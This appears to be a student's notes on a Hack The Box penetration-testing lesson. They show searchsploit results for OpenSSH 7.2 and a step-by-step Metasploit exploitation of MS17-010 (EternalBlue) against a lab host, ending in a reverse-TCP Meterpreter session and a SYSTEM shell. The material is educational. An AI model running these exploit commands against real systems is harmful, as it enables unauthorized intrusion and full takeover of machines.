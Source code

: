 After we identify the service running on ports using Nmap scan, the sfirst step is to look if any of the servies have any public exploits, which can be found for web application and other applications running on open ports like SSH or ftp. 

---
Finding public exploits

Many tools can help us for the various application and services we may encounter during the enumeration phase, one way is to google for the application name with exploit to see if we get any results. 
Ex) windows 7 smb exploits
A well known tool for this purpose if searchsploit, which we can use to search for public vulnerabilities or exploits for any application. 

```
kwc0827@htb[/htb]$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration         
```
We can also utilize online exploit databases to search for vulnerabilities. 

----
## Metasploit Primer

The MSF is an excellent tool for pentesters(침투테스터). It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. Masf has many other features like
- Running reconnaissance (정찰) scripts to enumerate remote hosts and compromised targets.
- Verification scripts to test the existence of a vulnerability without actually compromising the target
- Meterpreter which is a great tool to connect to shells and run commands on the compromised targets
- Many post exploitation and pivoting tool
Metasploit can be used with the msfconsole command.
Once we have metasploit running, we can search for our target with the search exploit command. For example, we can search for the SMB vulnerability we identified previosuly.

```
msf6 > search exploit eternalblue

Matching Modules
===================

# name        Disclosure Date Rank  Check  Description
  ----        ---------- --- ----- ------ -------------
  <SNIP>
  EternalBlue SMB Remote Windows Kernel Pool Corruption for WIN8+
   4      exploit/windows/smb/ms17_010_psexec  2017-03-14 normal Yes MS17-010
```

We found one exploit for this service. We can use it by copying the full name of it and using USE to use it.

```
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the show options command:

```
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```
Any options with required set to yes needs to be set for the exploit to work. In this case, we only have two options to set: rhosts, which means the ip of our target (this can be one IP, multiple IPs, or a file containing a list of Ips). The second option Lhost, represents the IP of our attack host. In the following example, lhost is being set to the IP associated with our tun 0 interface. We can set them with the set command.

```
msf6 explot(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```
Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable. 

```
msf6 exploit(windows/smb/ms17_010_pswxec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```
The server is indeed vulnerable. Note that not every exploit the Metasploit Framework supports check functions. Finally, we can use the run or exploit command to run the exploit. 

```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```
As we can see, we have been able to gain admin access to the box and used the shell command to drop us into an interactive shell. These are basic examples of using Metasploit to exploit a vulnerability on a remote server. 
